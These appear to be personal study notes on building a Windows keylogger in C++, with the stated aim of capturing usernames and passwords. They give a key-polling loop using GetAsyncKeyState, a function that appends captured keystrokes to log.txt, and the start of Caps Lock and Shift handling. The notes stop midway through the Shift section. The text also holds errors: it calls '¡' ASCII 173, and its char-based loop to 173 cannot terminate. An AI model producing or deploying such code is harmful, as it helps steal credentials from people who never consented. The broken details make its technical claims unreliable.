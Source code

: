 **Title:** ILY - Keylogger
**Tags:** [[ILY - Easy]]
**Topics:** #CPP #Keylogger

---
# ILY - Keylogger
# General
## First Iteration
### void startLogging();
It is not possible to know which key has been pressed after it happened, so the only way to detect it is to check all possible valid keys in the ASCII symbols every time. Due to our goal of capturing passwords and usernames, the last valid symbol is "¡", which has the number 173 in the ASCII standard.

Now that we are checking all possible characters, it is important to determine how we are going to get that “alarm” informing us that a key on the keyboard has been pressed. This is where `GetAsyncKeyState()` comes into play.

`GetKeyState()` Will return that a key has been pressed only if it happens in the same “instant”; otherwise, it will not detect it. This isn't really convenient in our case, so we will use `GetAsyncKeyState()` instead, because it can retrieve the state of a key pressed at any time.

It's essential to understand how `GetAsyncKeyState()` works and the best way to implement it. You will see three types of implementations:
- `GetAsyncKeyState(key) == -32767`: Verifies if a key has been pressed and released.
- `GetAsyncKeyState(key) & 0x0001`: Verifies if a key has been pressed since the last call.
- `GetAsyncKeyState(key) & 0x8000`: Verifies if a key is currently being pressed.
[//]: Note that (0xFFFF8001)Hexa == (-32767)Ca2

```ad-question
I do not fully understand why the keylogger only works correctly when I set `0xFFFF8001` and why it captures the key while I maintain it pressed.
```

Finally, for readability purposes, we want to process special characters to log them in a special format. Otherwise, we just log the key directly.

```c++
for (char key = 8; key<=173; key++) {
	if (GetAsyncKeyState(key) == 0xFFFF8001) {
	    if (not specialKey(key)) {
            string str(1, key);
            save(str);
        }
    }
}
```

### void save(const string& input);
Firstly, we need to create a new datatype to work with files. For this reason, we must include `#include <iostream>` and `#include <fstream>`.

```ad-info
**fstream**
This data type represents the file stream generally, and has the capabilities of both ofstream and ifstream which means it can create files, write information to files, and read information from files.
```

Afterward we will have to open the file to append the `input` in it. 
`fstream` will create the file if it does not exist, and if any no problem occurs, we will append the input. It is good practice to close the file every time after performing file operations.

```c++
void save(const string& input) {
    fstream LogFile;
    
    LogFile.open("log.txt", fstream::app);  // If it does not exists, it will create it.
    
    if (LogFile.is_open()) {
		LogFile << input;
		LogFile.close();
	}
}
```

## Second Iteration
### Detect Upper and Lower cases
``GetKeyState(VK_CAPITAL)`` returns a short where the least significant bit (LSB) represents the toggle state. If the LSB is 1, Caps Lock is active.
```c++
(GetKeyState(VK_CAPITAL) & 1)
```

``GetKeyState(VK_SHIFT)`` returns a short where the most significant bit (MSB) is set if the key is currently being pressed. The value 0x8000 corresponds to this MSB, indicating the physical press of the key.